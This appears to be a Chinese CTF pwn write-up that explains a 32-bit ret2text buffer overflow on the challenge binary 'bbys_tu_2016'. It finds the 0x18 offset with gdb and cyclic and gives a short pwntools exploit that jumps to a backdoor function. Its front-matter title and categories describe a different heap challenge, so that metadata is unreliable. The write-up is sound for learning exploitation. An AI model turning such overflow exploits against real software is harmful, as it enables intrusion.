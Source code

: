 ```yaml
---
title: '[LitCTF2024]heap-2.23'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
image: /assets/img/old_imags
---
```


![image-20240108202313442](image-20240108202313442.png)

![image-20240108202321247](image-20240108202321247.png)

- 缓存区长度调试
- `32`位下的`ret2text`
- `cyclic`的使用

1. `main`函数中存在溢出
2. 存在后门函数
3. 构造`payload`,`ret2text`就可以得到`flag`

难点在于我们很难通过ida得到我们要溢出的长度,需要手动计算,接下来是两种方法

- A,通过`gdb`得到溢出长度

  ![image-20240108202713661](/image-20240108202713661.png)

  ![image-20240108202748090](/image-20240108202748090.png)

  停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

  ![image-20240108202957597](image-20240108202957597.png)

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可

